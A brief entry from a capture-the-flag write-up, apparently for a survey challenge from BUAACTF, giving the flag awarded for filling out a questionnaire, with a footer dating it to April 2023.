**119 pts**

> [数据删除]
>
> 完成问卷填写即可获得flag。

### Flag

```js
BUAACTF{GoOd_Bye~may_1he_f1ag_Be_wi1h_U}
```

* * *

2023 年 4 月 26 日写于 Notion。
